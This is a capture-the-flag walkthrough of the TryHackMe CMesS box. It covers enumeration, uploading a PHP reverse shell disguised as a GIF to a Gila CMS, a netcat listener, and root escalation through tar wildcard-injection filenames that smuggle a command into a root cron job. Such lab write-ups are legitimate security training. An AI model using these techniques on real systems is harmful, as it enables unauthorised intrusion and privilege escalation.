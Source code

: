In this walkthrough, we'll go over a challenge (intermediate) level box called ***CMesS***. CMesS is one of the Linux Privesc boxes on [TryHackMe](https://tryhackme.com/room/cmess) and it was also one of the challenges from [TCM's Linux Privilege Escalation Course on Udemy](https://www.udemy.com/course/linux-privilege-escalation-for-beginners/).

![CMesS](CMesS.png)
![CMesS IP](CMesS-IP.png)

Let's start the scanning process with nmap. The IP address would be different when you deploy it:
```bash
nmap -sTV -n -sC -T4 -p- 10.10.227.177 --open
```
![CMesS nmap](CMesS-nmap.png)

Let's also run the vulnerability scripts as well:
```bash
nmap --script vuln -p 22,80 10.10.227.177
```
![CMesS nmap vuln](CMesS-nmap-vuln.png)

However, nmap vuln scan didn't reveal much. Since port 80 is open and Apache httpd 2.4.18 is running, we can start a directory search:
```bash
dirsearch -u http://10.10.227.177 -e php,cgi,html,htm,bak,old,txt -r
```
![CMesS dirsearch-1](CMesS-dirsearch-1.png)
![CMesS dirsearch-2](CMesS-dirsearch-2.png)

After enumerating every folder, I realized that a valid set of credentials required to get into this application:

![Gila index](Gila-index.png)
![Gila admin](Gila-admin.png)

It looks like we have exhausted every option, on my end I also went through every Github exploit related to Apache 2.4.18 (Ubuntu). Next option is to look for subdomains:
```bash
wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hl 107 -H "Host: FUZZ.cmess.thm" -u http://cmess.thm -t 100
```
![CMesS wfuzz](CMesS-wfuzz.png)

As we can see there is another domain "dev", let's add that to our /etc/hosts file and try to visit the site:

![CMesS /etc/hosts](CMesS-hosts.png)

![CMesS dev domain](CMesS-dev-domain.png)

Now, we can try to use andre@cmess.thm email with the above (blurred) password. Once we login, we can browse to "Content" --> "Media" to see if we can upload a reverse shell:

![Gila admin console](Gila-admin-console.png)

We can upload a txt file to see if there is a file type restriction for upload and then intercept the traffic with BurpSuite:

![Gila burp suite intercept](Gila-burp-suite-intercept.png)

And it looks like, we can only upload media files. Let's think about it for a second, we can upload png, jpeg, jpg, or gif so how do we do that? Let's download PHP reverse shell from https://github.com/pentestmonkey/php-reverse-shell and we need to change the IP address, and port if you would like. Now, change the file extension to gif:
```bash
cp php-revshell.php php-revshell.php.gif
```
Upload it to the website, but intercept it with BurpSuite and add "GIF89a;" on the top of PHP code:

![Gila BurpSuite intercept](Gila-gif-intercept.png)

![Gila revshell](Gila-revshell.png)

Let's change the file name to "php-revshell.php" on the Gila site:

![Gila php revshell](Gila-revshell-php.png)

Turn off the proxy and start a netcat listener on our Kali machine ```nc -nlvp 1234``` Now, all we need to do this is visiting cmess.thm/assets/php-revshell.php If all goes well, we should receive a reverse shell back:

![Gila initial foothold](Gila-initial-foothold.png)

From this point on, I decided to use LinEnum from https://github.com/rebootuser/LinEnum. I always save Github scripts to my opt directory so I started a Python server and brought it over the compromised machine, but before let's upgrade our shell with python3:

![Which Python](CMesS-Which-Python.png)
```bash
/usr/bin/python3 -c 'import pty;pty.spawn("/bin/bash");'
```
```bash
sudo python3 -m http.server 1111
```
And you can use wget on the target machine to download it. After downloading, make sure that it is executable ```chmod +x LinEnum.sh```. Now, we are ready to run LinEnum ```./LinEnum.sh```

If we look at the output, the first thing we see is a password.bak file which we have read right to it:

![LinEnum output](CMesS-LinEnum-output.png)

```cat /opt/.password.bak```

![Password Content](CMesS-Password-Content.png)

We know that port 22 is open which is SSH so let's try to ssh into the machine with andres password:
```bash
ssh andres@cmess.thm
```
![SSH into](CMesS-SSH-Into.png)

It worked and we can also see ```user.txt``` file which has the user flag. Last task remaining is to become root. I am again running LinEnum to see if I can find anything interesting that can be used to escalate privileges.

![LinEnum-Crontab](CMesS-LinEnum-Crontab.png)

![LinEnum-Sudo-Version](CMesS-Sudo-Version.png)

![LinEnum-SUID-Files](CMesS-SUID-Files.png)

I tried sudo version exploit and other SUID files and nothing worked for me. The last thing left is to use cron jobs to get a root shell. If we look at the last cron job, we see that it is run by root. It goes into ```/home/andre/backup``` and creates a backup file in ```/tmp```. Here is the script to escalate our privilege via the last cron job:
```bash
echo ‘cp /bin/bash /tmp/bash; chmod +s /tmp/bash’ > runme.sh  --> this generates runme.sh file which copies /bin/bash to /tmp
touch /home/andre/--checkpoint=1 
touch /home/andre/--checkpoint-action=exec=sh\ runme.sh
```
After that we wait for about one minute and then check ```/tmp``` folder to see if bash has been copied:

![Bash](CMesS-bash.png)

Now, we can run the bash file with ```/tmp/bash -p```

![Root](CMesS-Root.png)

Woww, we have done it, we can grab the root file which has the root flag.

I hope you enjoyed this walkthrough.

[<= Go Back to TryHackMe Walkthroughs](TryHackMeWalkthroughs.md)

[<= Go Back to Main Menu](index.md)



